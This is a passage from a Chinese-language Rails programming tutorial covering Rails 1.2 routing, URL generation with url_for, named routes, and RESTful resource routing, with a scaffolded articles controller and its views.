-   形式为 `*name` 的模式组件接受传入 URL 中所有剩余组件。参数 `name` 将引用一个包含其值的数组。因为它会吞掉 URL 的所有剩余组件，所以 `*name` 必须出现在模式的末尾。
-   任何其他模式组件都精确匹配 URL 中相应位置的内容。例如，包含 `store/:controller/buy/:id` 的路由模式将在 URL 前部包含文本 `store` 且路径的第三个组件是文本 `buy` 时匹配。

`map.connect` 接受附加参数。

```
:defaults => { :name => "value", ... }
```

设置模式中命名参数的默认值。模式中具有默认值的末尾组件可以在传入 URL 中省略，并且在设置参数时将使用其默认值。默认为 `nil` 的参数如果未出现在 URL 中，则不会添加到 params 哈希中。如果你没有指定其他内容，路由将自动提供以下默认值。

```
defaults => { :action => "index", :id => nil }
```


这解释了对默认路由的解析，该路由在 `routes.rb` 中指定为
`map.connect ':controller/:action/:id'`

因为动作默认为 "index"，而 id 可能被省略（因为它默认为 nil），所以路由能够识别默认 Rails 应用程序的以下传入 URL 风格。

```
>> rs.recognize_path "/store"
=> {:action=>"index", :controller=>"store"}
>> rs.recognize_path "/store/show"
=> {:action=>"show", :controller=>"store"}
>> rs.recognize_path "/store/show/1"
=> {:action=>"show", :controller=>"store", :id=>"1"}
```

> `:requirements => { :name =>/regexp/, ...}`
指定给定的组件（如果存在于 URL 中），每个组件都必须匹配指定的正则表达式，整个映射才能匹配。换句话说，如果任何组件不匹配，此映射将不会被使用。

> `:conditions => { :name =>/regexp/orstring, ...}`
这是 Rails 1.2 中的新增功能，`:conditions` 允许你指定路由仅在某些情况下匹配。可以测试的条件集可以通过插件扩展——开箱即用，路由支持单个条件。这使你可以编写基于提交传入请求的 HTTP 动词的条件路由。

在以下示例中，当 Rails 收到对 `/store/checkout` 的 GET 请求时，它将调用 `display_checkout_form` 动作，但如果它看到对该相同 URL 的 POST 请求，则将调用 `save_checkout_form` 动作。

```
Download e1/routing/config/routes_with_conditions.rb

ActionController::Routing::Routes.draw do |map|
  map.connect 'store/checkout',
              :conditions => { :method => :get },
              :controller => "store",
              :action     => "display_checkout_form"

  map.connect 'store/checkout',
              :conditions => { :method => :post },
              :controller => "store",
              :action     => "save_checkout_form"
end
```

> `:name => value`
为组件 `:name` 设置默认值。与使用 `:defaults` 设置的值不同，名称本身无需出现在模式中。这允许你向传入请求添加任意参数值。该值通常是一个字符串或 nil。

> `:name => /regexp/`
等同于使用 :requirements 对 :name 的值设置约束。

还有一条规则：路由会尝试依次将传入 URL 与 routes.rb 中的每个规则进行匹配。第一个成功的匹配将被使用。如果没有匹配成功，则会引发错误。

现在让我们看一个更复杂的例子。在你的博客应用程序中，你希望所有 URL 都以单词 blog 开头。如果没有给出其他参数，你将显示一个索引页。如果 URL 看起来像 blog/show/nnn，你将显示第 nnn 篇文章。如果 URL 包含一个日期（可能是年份、年份/月份或年份/月份/天），你将显示该日期的文章。否则，URL 将包含一个控制器和动作名称，允许你编辑文章以及以其他方式管理博客。最后，如果你收到一个无法识别的 URL 模式，你将用一个特殊的动作来处理它。

此处的路由包含针对每个单独情况的一行代码。

```
ActionController::Routing::Routes.draw do |map|

  # 直接的 'http://my.app/blog/' 显示索引页
  map.connect "blog/",
              :controller => "blog",
              :action => "index"

  # 返回一年、一年/月或一年/月/日的文章
  map.connect "blog/:year/:month/:day",
              :controller => "blog",
              :action => "show_date",
              :requirements => { :year => /(19|20)\d\d/,
                                 :month => /[01]?\d/,
                                 :day => /[0-3]?\d/ },
              :day => nil,
              :month => nil

  # 显示由 id 标识的文章
  map.connect "blog/show/:id",
              :controller => "blog",
              :action => "show",
              :id => /\d+/

  # 用于管理功能的常规 Rails 路由
  map.connect "blog/:controller/:action/:id"

  # 全捕获规则，以便我们可以优雅地处理格式错误的请求
  map.connect "*anything",
              :controller => "blog",
              :action => "unknown_request"
end
```

注意此代码中的两点。首先，我们将日期匹配规则约束为寻找看起来合理的年、月和日值。没有这个约束，该规则也会匹配常规的控制器/动作/URL。其次，注意我们如何将全捕获规则 ("*anything") 放在列表的最后。因为此规则匹配任何请求，将其放在前面会阻止对后续规则的检查。

我们可以看看这些规则如何处理一些请求 URL。

```
>> ActionController::Routing.use_controllers! [ "article", "blog" ]
=> ["article", "blog"]

>> load "config/routes_for_blog.rb"
=> []

>> rs.recognize_path "/blog"
=> {:controller=>"blog", :action=>"index"}

>> rs.recognize_path "/blog/show/123"
=> {:controller=>"blog", :action=>"show", :id=>"123"}

>> rs.recognize_path "/blog/2004"
=> {:year=>"2004", :controller=>"blog", :action=>"show_date"}

>> rs.recognize_path "/blog/2004/12"
=> {:month=>"12", :year=>"2004", :controller=>"blog", :action=>"show_date"}

>> rs.recognize_path "/blog/2004/12/25"
=> {:month=>"12", :year=>"2004", :controller=>"blog", :day=>"25",
    :action=>"show_date"}

>> rs.recognize_path "/blog/article/edit/123"
=> {:controller=>"article", :action=>"edit", :id=>"123"}

>> rs.recognize_path "/blog/article/show_stats"
=> {:controller=>"article", :action=>"show_stats"}

>> rs.recognize_path "/blog/wibble"
=> {:controller=>"blog", :anything=>["blog", "wibble"], :action=>"unknown_request"}

>> rs.recognize_path "/junk"
=> {:controller=>"blog", :anything=>["junk"], :action=>"unknown_request"}
```

我们还没有完全完成路由的指定，但在我们查看创建命名路由之前，让我们先看看另一面——从我们的应用程序内部生成一个 URL。

#### URL 生成

路由获取一个传入的 URL 并将其解码为一组参数，Rails 使用这些参数分派到适当的控制器和动作（可能在此过程中设置其他参数）。但这只是故事的一半。我们的应用程序还需要创建回指自身的 URL。例如，每次它显示一个表单时，该表单都需要链接回一个控制器和动作。但应用程序代码不一定知道编码此信息的 URL 的格式；它所看到的只是路由完成其工作后它接收的参数。

我们可以将所有 URL 硬编码到应用程序中，但在多个地方散布有关请求格式的知识会使我们的代码更加脆弱。这违反了 DRY 原则；<sup>2</sup> 改变应用程序的位置或 URL 的格式，我们将不得不更改所有这些字符串。

幸运的是，我们不必担心这个，因为 Rails 还使用 `url_for` 方法（以及许多使用它的更高级的朋友）抽象了 URL 的生成。为了说明这一点，让我们回到一个简单的映射。

```
map.connect ":controller/:action/:id"
```

`url_for` 方法通过将其参数应用于映射来生成 URL。它在控制器和视图中工作。让我们试试看。

```
@link = url_for(:controller => "store", :action => "display", :id => 123)
```

此代码将 `@link` 设置为类似这样的内容

```
http://pragprog.com/store/display/123
```

`url_for` 方法获取我们的参数，并将它们映射成与我们自己的路由兼容的请求。如果用户选择一个具有此 URL 的链接，它将调用我们应用程序中预期的动作。

`url_for` 背后的重写相当聪明。它知道默认参数，并生成能完成你想要的操作的最小 URL。而且，正如你可能已经猜到的，我们可以在 `script/console` 中使用它。我们不能直接调用 `url_for`，因为它仅在控制器和视图内部可用。然而，我们可以做次优的事情，即在路由内部调用 `generate` 方法。同样，我们将使用我们之前使用的路由集。让我们看一些例子。

```
# 没有动作或 id，重写使用默认值
>> rs.generate :controller => "store"
=> "/store"

# 如果缺少动作，重写会在 URL 中插入默认值 (index)
>> rs.generate :controller => "store", :id => 123
=> "/store/index/123"
```

<sup>2</sup> DRY 代表 *Don't Repeat Yourself*（不要重复自己），这是在 *《程序员修炼之道》* [HT00] 中创造的一个缩写。


# ID 是可选的
```ruby
>> rs.generate :controller => "store", :action => :list
=> "/store/list"
```

# 完整请求
```ruby
>> rs.generate :controller => "store", :action => :list, :id => 123
=> "/store/list/123"
```

# 附加参数会被添加到 URL 的末尾
```ruby
>> rs.generate :controller => "store", :action => :list, :id => 123, :extra => "wibble"
=> "/store/list/123?extra=wibble"
```

默认机制会尽可能使用当前请求的值。最常见的情况是，当省略 `:controller` 参数时，用于填充当前控制器的名称。我们可以在 `script/console` 中通过 `generate` 的可选第二个参数来演示这一点。这个参数提供了从当前活动请求解析出的选项。因此，如果当前请求是 `/store/index`，我们只生成一个指定 `show` 操作的新 URL，我们仍然会看到 URL 的路径中包含 `store` 部分。

```ruby
>> rs.generate({:action => "show"}, {:controller => "store", :action => "index"})
=> "/store/show"
```

为了更具体地说明，我们可以看看在这些情况下使用 `url_for` 会发生什么。

```ruby
url_for(:action => "status")
    #=> http://pragprog.com/store/status
```

URL 生成也适用于更复杂的路由。例如，我们博客的路由包含以下映射。

```ruby
# 按年、年/月或年/月/日返回文章
map.connect "blog/:year/:month/:day",
            :controller => "blog",
            :action => "show_date",
            :requirements => { :year => /(19|20)\d\d/,
                               :month => /[01]?\d/,
                               :day => /[0-3]?\d/},
            :day => nil,
            :month => nil

# 显示由 id 标识的文章
map.connect "blog/show/:id",
            :controller => "blog",
            :action => "show",
            :id => /\d+/

# 用于管理功能的标准 Rails 路由
map.connect "blog/:controller/:action/:id"
```

假设传入的请求是 `http://pragprog.com/blog/2006/07/28`。根据第一条规则，这将被映射到 `Blog` 控制器的 `show_date` 操作。

```ruby
>> ActionController::Routing.use_controllers! [ "blog" ]
=> ["blog"]
>> load "config/routes_for_blog.rb"
=> true
>> last_request = rs.recognize_path "/blog/2006/07/28"
=> {:month=>"07", :year=>"2006", :controller=>"blog", :day=>"28", :action=>"show_date"}
```

让我们看看在这种情况下各种 `url_for` 调用会生成什么。

如果我们请求不同日期的 URL，映射调用将使用传入请求的值作为默认值，只更改日期参数。

```ruby
>> rs.generate({:day => 25}, last_request)
=> "/blog/2006/07/25"
```

现在，让我们看看如果只给它一个年份会发生什么。

```ruby
>> rs.generate({:year => 2005}, last_request)
=> "/blog/2005"
```

这非常智能。映射代码假设 URL 表示值的层次结构。一旦我们更改了该层次结构中某个级别的默认值，它就会停止为更低的级别提供默认值。这是合理的：更低级别的参数只有在更高级别的上下文中才有意义，因此更改默认值会使更低级别的参数失效。通过在这个例子中覆盖年份，我们隐式地告诉映射代码我们不需要月份和日期。

还要注意，映射代码选择了第一条可以合理用来渲染 URL 的规则。让我们看看如果我们给出的值无法被第一条基于日期的规则匹配时会发生什么。

```ruby
>> rs.generate({:action => "edit", :id => 123}, last_request)
=> "/blog/blog/edit/123"
```

这里第一个 `blog` 是固定文本，第二个 `blog` 是控制器的名称，`edit` 是操作名称——映射代码应用了第三条规则。如果我们指定一个 `show` 操作，它将使用第二条映射。

```ruby
>> rs.generate({:action => "show", :id => 123}, last_request)
=> "/blog/show/123"
```

大多数情况下，映射代码正是你想要的。然而，它有时会过于智能。假设你想生成查看 2006 年博客条目的 URL。你可以写

```ruby
>> rs.generate({:year => 2006}, last_request)
```

当映射代码输出一个也包含月份和日期的 URL 时，你可能会感到惊讶。

```ruby
=> "/blog/2006/07/28"
```

你提供的年份值与当前请求中的相同。因为这个参数没有改变，映射继续使用月份和日期的默认值来完成 URL 的其余部分。要解决这个问题，请将 month 参数设置为 nil。

```ruby
>> rs.generate({:year => 2006, :month => nil}, last_request)
=> "/blog/2006"
```

通常，如果你想生成部分 URL，最好将第一个未使用的参数设置为 nil；这样做可以防止传入请求的参数泄漏到传出的 URL 中。

有时你想要做相反的事情，更改层次结构中较高级别的参数值，并强制路由代码继续使用较低级别的值。在我们的例子中，这就像指定一个不同的年份，并让它在 URL 中添加现有的默认月份和日期值。为此，我们可以欺骗路由代码——我们使用 `:overwrite_params` 选项告诉 `url_for`，原始请求参数包含了我们想要使用的新年份。因为它认为年份没有改变，所以它继续使用其余的默认值。（注意，此选项在路由 API 内部不起作用，因此我们无法在 `script/console` 中直接演示它。）

```ruby
url_for(:year => "2002")                                    #=> http://pragprog.com/blog/2002
url_for(:overwrite_params => {:year => "2002"}) #=> http://pragprog.com/blog/2002/4/15
```

最后一个注意事项。假设一个映射有这样的要求：

```ruby
map.connect "blog/:year/:month/:day",
            :controller    => "blog",
            :action        => "show_date",
            :requirements  => { :year   => /(19|20)\d\d/,
                                :month  => /[01]\d/,
                                :day    => /[0-3]\d/ },
```

注意，`:day` 参数需要匹配 `/[0-3]\d/`；它必须是两位数长。这意味着如果你在创建 URL 时传递一个小于 10 的 Fixnum 值，此规则将不会被使用。

```ruby
url_for(:year => 2005, :month => 12, :day => 8)
```

因为数字 8 转换为字符串 "8"，而该字符串不是两位数长，所以映射不会触发。修复方法要么是放宽规则（在要求中使用 `[0-3]?\d` 使前导零可选），要么是确保你传递两位数。

```ruby
url_for(:year=>year, :month=>sprintf("%02d", month), :day=>sprintf("%02d", day))
```

# `url_for` 方法

现在我们已经了解了映射如何用于生成 URL，我们可以全面地看看 `url_for` 方法。

##### `url_for`

创建一个引用此应用程序的 URL

```ruby
url_for(option => value, ...)
```

创建一个引用此应用程序中控制器的 URL。*options* 哈希提供了用于填充 URL（基于映射）的参数名及其值。参数值必须与所使用的映射施加的任何约束相匹配。某些参数名在接下来的 *Options:* 部分中列出，它们是保留的，用于填充 URL 的非路径部分。如果你在 `url_for`（或任何相关方法）中使用 Active Record 模型对象作为值，将使用该对象的数据库 id。以下代码片段中的两个重定向调用具有相同的效果。

```ruby
user = User.find_by_name("dave thomas")
redirect_to(:action => 'delete', :id => user.id)

# 可以写成
redirect_to(:action => 'delete', :id => user)
```

`url_for` 也接受单个字符串或符号作为参数。Rails 在内部使用这个。

你可以通过在控制器中实现 `default_url_options` 方法来覆盖下表中参数的默认值。这应该返回一个可以传递给 `url_for` 的参数哈希。

**Options:**

| 选项 | 类型 | 描述 |
| :--- | :--- | :--- |
| `:anchor` | string | 要附加到 URL 的锚点名称。Rails 会自动添加 `#` 字符。 |
| `:host` | string | 设置 URL 中的主机名和端口。使用像 `store.pragprog.com` 或 `helper.pragprog.com:8080` 这样的字符串。默认为传入请求中的主机。 |
| `:only_path` | boolean | 仅生成 URL 的路径部分；省略协议、主机名和端口。 |
| `:protocol` | string | 设置 URL 的协议部分。使用像 `"https://"` 这样的字符串。默认为传入请求的协议。 |
| `:overwrite_params` | hash | 哈希中的选项用于创建 URL，但不从当前请求获取默认值。 |
| `:skip_relative_url_root` | boolean | 如果为 true，则不会在生成的 URL 前添加相对 URL 根。更多细节请参见第 408 页的第 20.2 节 "Rooted URLs"。 |
| `:trailing_slash` | boolean | 在生成的 URL 后附加一个斜杠。如果你还使用页面或操作缓存（从第 456 页开始描述），请谨慎使用 `:trailing_slash`。据说额外的斜杠会混淆缓存算法。 |


#### 命名路由

到目前为止，我们一直在使用匿名路由，这些路由是在`routes.rb`文件中通过`map.connect`创建的。通常这就足够了；Rails在根据我们传递给`url_for`及其相关方法的参数来生成URL方面做得很好。然而，通过为路由命名，我们可以使应用程序更易于理解。这不会改变传入URL的解析方式，但它让我们能够在代码中明确地使用特定路由来生成URL。

你只需在路由定义中使用`connect`以外的名称，就可以创建一个命名路由。你使用的名称将成为该特定路由的名称。例如，我们可以这样重新编写我们的博客路由：

```ruby
ActionController::Routing::Routes.draw do |map|
  # 直接 'http://my.app/blog/' 显示索引页
  map.index "blog/",
            :controller => "blog",
            :action => "index"

  # 返回某年、某年/月或某年/月/日的文章
  map.date "blog/:year/:month/:day",
           :controller => "blog",
           :action => "show_date",
           :requirements => { :year => /(19|20)\d\d/,
                              :month => /[01]?\d/,
                              :day => /[0-3]?\d/},
           :day => nil,
           :month => nil

  # 显示由id标识的文章
  map.show_article "blog/show/:id",
                   :controller => "blog",
                   :action => "show",
                   :id => /\d+/

  # 用于管理内容的标准Rails路由
  map.blog_admin "blog/:controller/:action/:id"

  # 用于优雅处理格式错误请求的全能路由
  map.catch_all '*anything',
                :controller => "blog",
                :action => "unknown_request"
end
```

在这里，我们将显示索引页的路由命名为`index`，接受日期参数的路由命名为`date`，依此类推。我们可以通过将`_url`附加到这些路由名称后面，并以使用`url_for`的相同方式使用它们，来生成URL。因此，要生成博客索引页的URL，我们可以使用

```ruby
@link = index_url
```

这将使用第一条路由构建一个URL，结果如下：
`http://pragprog.com/blog/`

你可以将额外的参数作为哈希值传递给这些命名路由。这些参数将被添加到该特定路由的默认参数中。以下示例说明了这一点。

```ruby
index_url
#=> http://pragprog.com/blog

date_url(:year => 2005)
#=> http://pragprog.com/blog/2005

date_url(:year => 2003, :month => 2)
#=> http://pragprog.com/blog/2003/2

show_article_url(:id => 123)
#=> http://pragprog.com/blog/show/123
```

你可以在Rails期望URL参数的任何地方使用`xxx_url`方法。因此，你可以用以下代码重定向到索引页。

```ruby
redirect_to(index_url)
```

在视图模板中，你可以使用以下代码创建指向索引页的超链接

```erb
<%= link_to("Index", index_url) %>
```

除了`xxx_url`方法外，Rails还创建了`xxx_path`形式的方法。这些方法只构造URL的路径部分（忽略协议、主机和端口）。

最后，如果命名URL生成方法的唯一参数用于填充URL中的命名字段值，则可以将它们作为常规参数传递，而不是作为哈希值传递。例如，我们的示例`routes.rb`文件为博客管理定义了一个命名URL。

```ruby
map.blog_admin "blog/:controller/:action/:id"
```

我们已经看到了如何使用命名URL生成器链接到*用户列表*操作。

```ruby
blog_admin_url :controller => 'users', :action => 'list'
```

由于我们只使用选项来给命名参数赋值，我们也可以这样写

```ruby
blog_admin_url 'users', 'list'
```

也许令人惊讶的是，这种形式比传递哈希值效率更低。

#### 控制器命名

回到第243页，我们说过控制器可以分组到模块中，并且传入的URL使用类似路径的约定来标识这些控制器。一个传入的URL，如`http://my.app/admin/book/edit/123`，将调用`Admin`模块中`BookController`的`edit`操作。

这种映射也影响URL生成。

- 如果你没有将`:controller`参数传递给`url_for`，它将使用当前控制器。
- 如果你传递的控制器名称以`/`开头，那么该名称是绝对的。
- 所有其他控制器名称都是相对于发出请求的控制器的模块的。

为了说明这一点，让我们假设有一个传入请求

```ruby
http://my.app/admin/book/edit/123
```

```ruby
url_for(:action => "edit", :id => 123)
#=> http://my.app/admin/book/edit/123
```

```ruby
url_for(:controller => "catalog", :action => "show", :id => 123)
#=> http://my.app/admin/catalog/show/123
```

```ruby
url_for(:controller => "/store", :action => "purchase", :id => 123)
#=> http://my.app/store/purchase/123
```

```ruby
url_for(:controller => "/archive/book", :action => "record", :id => 123)
#=> http://my.app/archive/book/record/123
```

#### 根URL

有时你想运行同一个应用程序的多个副本。也许你在运营一个服务局，拥有多个客户。或者你可能想运行应用程序的预发布和生产版本。

如果可能，最简单的方法是运行多个（子）域，每个域运行一个应用程序实例。但是，如果这不可能，你也可以在URL路径中使用一个前缀来区分你的应用程序实例。例如，你可能在以下URL上运行多个用户的博客

```text
http://megablogworld.com/dave/blog
http://megablogworld.com/joe/blog
http://megablogworld.com/sue/blog
```

在这些情况下，前缀`dave`、`joe`和`sue`标识了应用程序实例：应用程序的路由从这部分之后开始。你可以告诉Rails在接收URL时忽略路径的这一部分，并在生成URL时添加它前缀，方法是设置环境变量`RAILS_RELATIVE_URL_ROOT`。如果你的Rails应用程序在Apache上运行，此功能会自动启用。

#### 基于资源的路由

Rails路由支持基于URL内容和调用请求的HTTP方法，在URL和操作之间进行映射。我们已经了解了如何使用匿名路由或命名路由逐个URL地进行此操作。Rails还支持一种更高级的方式来创建相关路由组。为了理解其动机，我们需要稍微进入一下表示性状态转移的世界。

##### REST：表示性状态转移

REST是一种思考分布式超媒体系统架构的方式。这与我们相关，因为许多Web应用程序可以这样分类。

REST背后的思想在Roy Fielding 2000年的博士论文第5章中得到了形式化。<sup>4</sup> 在REST方法中，服务器使用无状态连接与客户端通信：两者之间交互状态的所有信息都编码在它们之间的请求和响应中。长期状态作为一组可识别的*资源*保存在服务器上。客户端使用定义明确（且受到严格约束）的资源标识符集（在我们上下文中是URL）来访问这些资源。REST区分资源的内容与该内容的呈现。REST旨在支持高度可扩展的计算，同时约束应用程序架构在本质上是解耦的。

这个描述中有很多抽象的东西。在实践中，REST意味着什么？

首先，RESTful方法的正式性意味着网络设计师知道何时何地可以缓存对请求的响应。这使得负载可以分布到整个网络，从而提高性能和弹性，同时降低延迟。

其次，REST施加的约束可以导致更易于编写（和维护）的应用程序。RESTful应用程序不必担心实现远程可访问的服务。相反，它们为一组资源提供一个常规（且简单）的接口。你的应用程序实现了一种列出、创建、编辑和删除每个资源的方法，你的客户端则处理其余部分。

让我们具体化一点。在REST中，我们使用一组简单的动词来操作一组丰富的名词。如果我们使用HTTP，这些动词对应于HTTP方法（通常是GET、PUT、POST和DELETE）。名词是我们应用程序中的资源。我们使用URL来命名这些资源。

<sup>4</sup> [http://www.ics.uci.edu/~fielding/pubs/dissertation/rest_arch_style.htm](http://www.ics.uci.edu/~fielding/pubs/dissertation/rest_arch_style.htm)


一个内容管理系统可能包含一组文章。这里隐式地存在两种资源。首先，是单篇文章。每一篇都构成一个资源。还有第二种资源：文章集合。

要获取所有文章的列表，我们可以向这个集合发出一个HTTP GET请求，例如请求路径`/articles`。要获取单个资源的内容，我们必须对其进行标识。Rails的方式是给出它的主键值（即它的`id`）。我们同样会发出一个GET请求，这次是针对URL `/articles/1`。到目前为止，这一切看起来都很熟悉。但是，当我们想要向集合中添加一篇文章时会发生什么？

在非RESTful的应用程序中，我们可能会发明一个以动词短语命名的动作：`articles/add_article/1`。在REST的世界里，我们不应该这样做：我们应该使用一组标准动词来告诉资源该做什么。要使用REST在我们的集合中创建一篇新文章，我们会使用一个指向`/articles`路径的HTTP POST请求，POST数据中包含要添加的文章。是的，这就是我们用来获取文章列表的同一路径：如果你向它发出GET请求，它会返回一个列表；如果你向它发出POST请求，它会向集合中添加一篇新文章。

更进一步。我们已经看到，你可以通过向路径`/articles/1`发出GET请求来检索一篇文章的内容。要更新那篇文章，你可以向同一个URL发出HTTP PUT请求。而要删除它，你可以再次使用同一个URL发出HTTP DELETE请求。

再进一步。也许我们的系统还跟踪用户。同样，我们需要处理一组资源。REST告诉我们，对一组类似的URL（`/users`、`/users/1`、...）使用相同的动词集（GET、POST、PUT和DELETE）。

现在我们看到了REST施加的一些约束的力量。我们已经熟悉Rails如何约束我们以特定方式构建应用程序。现在，REST哲学也告诉我们要构建应用程序的接口。突然间，我们的世界变得简单多了。

#### REST 和 Rails

Rails 1.2 添加了对这种类型接口的直接支持；它添加了一种称为`resources`的宏路由设施。让我们为我们的文章示例创建一组RESTful路由。

```
ActionController::Routing::Routes.draw do |map|
  map.resources :articles
end
```

`map.resources`这一行为我们的应用程序添加了七个新路由和四个新路由助手。在此过程中，它假设应用程序将有一个名为`ArticlesController`的控制器，其中包含七个具有给定名称的动作。编写那个控制器就是我们的任务了。

在开始之前，先看看为我们生成的路由。

| 方法 | URL路径 | 动作 | 助手 |
|---|---|---|---|
| GET | /articles | index | articles_url |
| POST | /articles | create | articles_url |
| GET | /articles/new | new | new_article_url |
| GET | /articles/1 | show | article_url(:id => 1) |
| PUT | /articles/1 | update | article_url(:id => 1) |
| GET | /articles/1/edit | edit | edit_article_url(:id => 1) |
| DELETE | /articles/1 | destroy | article_url(:id => 1) |

让我们看看这些路由引用的七个控制器动作。虽然我们创建路由是为了管理应用程序中的文章，但在这些描述中，让我们拓宽范围，谈谈资源——毕竟，所有基于资源的路由都需要相同的七个方法。

-   **index**
    返回资源列表。
-   **create**
    根据POST请求中的数据创建一个新资源，并将其添加到集合中。
-   **new**
    构建一个新资源，并将其传递给客户端。此资源将不会保存在服务器上。你可以将`new`动作理解为创建一个供客户端填写的空白表单。
-   **show**
    返回由`params[:id]`标识的资源的内容。
-   **update**
    使用与请求关联的数据更新由`params[:id]`标识的资源的内容。
-   **edit**
    返回由`params[:id]`标识的资源的内容，格式适合编辑。
-   **destroy**
    销毁由`params[:id]`标识的资源。

你可以看到，这七个动作包含了四个基本的CRUD操作（创建、读取、更新和删除）。它们还包括一个列出资源的动作，以及两个返回新资源和现有资源（格式适合在客户端编辑）的辅助动作。

让我们创建一个简单的应用来实践一下。到现在，你已经知道流程了，所以我们会很快进行。我们将创建一个名为*restful*的应用，并创建它的数据库。

```
work> rails restful
work> mysqladmin -u root create restful_development
```

“restful_development”，对吧？我已经开始喜欢这个了。

所以现在我们将开始创建我们的模型、控制器、视图等等。我们可以手动完成，但Rails带有一个使用新的基于资源的路由的脚手架版本，所以让我们节省一些输入时间。生成器接受模型（资源）的名称，以及可选的字段名称和类型列表。在我们的例子中，文章模型有三个属性：标题、摘要和内容。

```
restful> ruby script/generate scaffold_resource article \
    title:string summary:text content:text
exists  app/models/
exists  app/controllers/
exists  app/helpers/
create  app/views/articles
exists  test/functional/
exists  test/unit/
create  app/views/articles/index.rhtml
create  app/views/articles/show.rhtml
create  app/views/articles/new.rhtml
create  app/views/articles/edit.rhtml
create  app/models/article.rb
create  app/controllers/articles_controller.rb
create  test/functional/articles_controller_test.rb
create  app/helpers/articles_helper.rb
create  test/unit/article_test.rb
create  test/fixtures/articles.yml
create  db/migrate
create  db/migrate/001_create_articles.rb
    route  map.resources :articles
```

看看这个命令输出的最后一行。它告诉我们生成器已经自动将适当的映射添加到了我们的应用程序路由中。让我们看看它做了什么。查看`config/`目录下的`routes.rb`文件的顶部。

```
Download restful/config/routes.rb
ActionController::Routing::Routes.draw do |map|
  map.resources :articles

  # Existing routes and comments...

end
```

迁移文件是自动生成的，并填充了我们提供给生成器的信息。

```
class CreateArticles < ActiveRecord::Migration
  def self.up
    create_table :articles do |t|
      t.column :title, :string
      t.column :summary, :text
      t.column :content, :text
    end
  end

  def self.down
    drop_table :articles
  end
end
```

所以我们需要做的就是运行迁移。

```
restful> rake db:migrate
```

现在我们可以启动应用程序（通过运行`script/server`）并开始体验。你会发现，它最初感觉与常规的脚手架Rails应用程序没什么不同。索引页面列出现有文章；你可以添加文章、编辑现有文章等等。但是，在体验时，看看生成的URL。你应该能看到我们使用的是RESTful版本。

让我们看看控制器代码。

```
class ArticlesController < ApplicationController
  # GET /articles
  # GET /articles.xml
  def index
    @articles = Article.find(:all)

    respond_to do |format|
      format.html # index.rhtml
      format.xml  { render :xml => @articles.to_xml }
    end
  end

  # GET /articles/1
  # GET /articles/1.xml
  def show
    @article = Article.find(params[:id])

    respond_to do |format|
      format.html # show.rhtml
      format.xml  { render :xml => @article.to_xml }
    end
  end

  # GET /articles/new
  def new
    @article = Article.new
  end

  # GET /articles/1/edit
  def edit
    @article = Article.find(params[:id])
  end

  # POST /articles
  # POST /articles.xml
  def create
    @article = Article.new(params[:article])

    respond_to do |format|
      if @article.save
        flash[:notice] = 'Article was successfully created.'

        format.html { redirect_to article_url(@article) }
        format.xml  do
          headers["Location"] = article_url(@article)
          render :nothing => true, :status => "201 Created"
        end
      else
        format.html { render :action => "new" }
        format.xml  { render :xml => @article.errors.to_xml }
      end
    end
  end

  # PUT /articles/1
  # PUT /articles/1.xml
  def update
    @article = Article.find(params[:id])

    respond_to do |format|
      if @article.update_attributes(params[:article])
        format.html { redirect_to article_url(@article) }
        format.xml  { render :nothing => true }
      else
        format.html { render :action => "edit" }
        format.xml  { render :xml => @article.errors.to_xml }
      end
    end
  end

  # DELETE /articles/1
  # DELETE /articles/1.xml
  def destroy
    @article = Article.find(params[:id])
    @article.destroy
    ...
  end
end
```


请注意，我们为每个RESTful操作都设置了一个对应的action。每个action前的注释展示了调用该action的URL格式。

同时请注意，许多action都包含一个`respond_to`块。正如我们在第178页看到的，Rails使用这个块来确定响应中要发送的内容类型。基于资源的脚手架生成器会自动创建代码，能够恰当地响应针对HTML或XML内容的请求。我们稍后就会体验这一点。

生成器创建的视图相当直观。唯一需要技巧的地方是，必须使用正确的HTTP方法向服务器发送请求。例如，index action对应的视图如下所示。

```
Download restful/app/views/articles/index.rhtml
<h1>Listing articles</h1>
<table>
  <tr>
    <th>Title</th>
    <th>Summary</th>
    <th>Content</th>
  </tr>

<% for article in @articles %>
  <tr>
    <td><%=h article.title %></td>
    <td><%=h article.summary %></td>
    <td><%=h article.content %></td>
    <td><%= link_to 'Show', article_path(article) %></td>
    <td><%= link_to 'Edit', edit_article_path(article) %></td>
    <td><%= link_to 'Destroy', article_path(article),
        :confirm => 'Are you sure?', :method => :delete %></td>
  </tr>
<% end %>
</table>
<br />
<%= link_to 'New article', new_article_path %>
```

编辑文章和添加新文章的链接都应该使用常规的GET方法，所以标准的`link_to`就可以正常工作。[^5] 然而，删除文章的请求必须发出HTTP DELETE，因此调用`link_to`时包含了`:method => :delete`选项。⁶

为了完整起见，这里列出其他视图。

```
Download restful/app/views/articles/edit.rhtml

<h1>Editing article</h1>

<% form_for(:article, :url => article_path(@article),
            :html => { :method => :put }) do |f| %>

    <p><b>Title</b><br />      <%= f.text_field :title %></p>
    <p><b>Summary</b><br />    <%= f.text_area :summary %></p>
    <p><b>Content</b><br />    <%= f.text_area :content %></p>

    <p><%= submit_tag "Update" %></p>
<% end %>

<%= link_to 'Show', article_path(@article) %> |
<%= link_to 'Back', articles_path %>
```

```
Download restful/app/views/articles/new.rhtml

<h1>New article</h1>

<% form_for(:article, :url => articles_path) do |f| %>

    <p><b>Title</b><br />      <%= f.text_field :title %></p>
    <p><b>Summary</b><br />    <%= f.text_area :summary %></p>
    <p><b>Content</b><br />    <%= f.text_area :content %></p>

    <p><%= submit_tag "Create" %></p>
<% end %>

<%= link_to 'Back', articles_path %>
```

```
Download restful/app/views/articles/show.rhtml

<p><b>Title:</b><%=h @article.title %></p>
<p><b>Summary:</b><%=h @article.summary %></p>
<p><b>Content:</b><%=h @article.content %></p>

<%= link_to 'Edit', edit_article_path(@article) %> |
<%= link_to 'Back', articles_path %>
```

> 6. 这里的实现变得有些复杂。浏览器无法发起HTTP DELETE请求，因此Rails采用了一种伪装方法。如果你查看生成的HTML，会发现Rails使用JavaScript来生成一个动态表单。该表单会POST到你指定的action。但它还包含一个名为`_method`的额外隐藏字段，其值为`delete`。当Rails应用程序接收到`_method`参数时，它会忽略真正的HTTP方法，并假装使用了参数的值（本例中为`delete`）。

#### 添加自定义Action

在理想情况下，你会在所有应用资源中使用一套一致的action，但这并不总是可行的。有时你需要为资源添加特殊处理。例如，我们可能需要创建一个界面，允许人们只获取最近的文章。为此，我们使用`map.resources`调用的扩展功能。

```
ActionController::Routing::Routes.draw do |map|
  map.resources :articles, :collection => { :recent => :get }
end
```

